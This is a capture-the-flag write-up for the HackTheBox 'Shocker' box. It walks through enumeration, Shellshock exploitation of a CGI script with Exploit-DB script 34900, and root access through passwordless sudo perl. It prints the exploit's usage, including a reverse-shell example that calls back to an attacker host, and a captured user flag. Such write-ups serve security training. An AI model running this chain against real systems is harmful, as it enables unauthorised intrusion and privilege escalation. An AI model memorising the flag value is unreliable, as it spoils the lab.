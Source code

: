 # Shocker 
A Linux Box featuring the Shellshock vulnerability

## Enumeration
First we run nmap scan against the machine.
![](./images/shocker_nmap.png)

We can see that two ports are open 80 (http) and 2222 (SSH)

Since we have Apache running, let see how the site looks like
![](./images/shocker_http.png)

We now do directory enumeration
![](./images/shocker_gobuster.png)
Above we can see that we found a directory `/cgi-bin/`  

Let's futher bruteforce it to see if we have any scripts in there.
![](./images/shocker_gobuster2.png)
We found a script `user.sh` in `/cgi-bin/` directory

Requesting this in burp
![](./images/shocker_burp.png)

It seems like an output for a script, so we might have a shellshock vulnerability.

We run this by searchsploit.
![](./images/shocker_ss.png)
Out of all the results, 34900 look good as it concerns with Apache mod_cgi, so we give it a try.

Lets  try it
```shell
┌──(kali㉿kali)-[~/htb/shocker]
└─$ locate 34900.py  
/usr/share/exploitdb/exploits/linux/remote/34900.py
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ vim 34900.py     
```

Here is the usage
```python
Usage:                                                                                                  
./exploit.py var=<value>                                                                                
                                                                                                        
Vars:                                                                                                   
rhost: victim host                                                                                      
rport: victim port for TCP shell binding                                                                
lhost: attacker host for TCP shell reversing                                                            
lport: attacker port for TCP shell reversing                                                            
pages:  specific cgi vulnerable pages (separated by comma)                                              
proxy: host:port proxy                                                                                  
                                                                                                        
Payloads:                                                                                               
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)                             
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)                                    
                                                                                                        
Example:                                                                                                
                                                                                                        
./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234                                     
./exploit.py payload=bind rhost=1.2.3.4 rport=1234    
 ```
 
 lets fire the script
 
 
 
 Now we have shell access, lets get the user flag
 ```shell
 10.10.10.56> cat user.txt
a4f237c30bbd60e6be8f2079bbbba8c2

// Also checked sudo commands
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

From above we can see that we can run `perl` as root. This is nice and will help in privelege escalation.

Now, we try to find a perl reverse shell. I found one at pentest monkey

Below is a failed attempt
![](./images/shocker_exploit1.png)

Below i try with sudo precedding the full path of perl as mentioned in `sudo -l`
![](./images/shocker_exploit2.png)

Now we have root. Cheers!

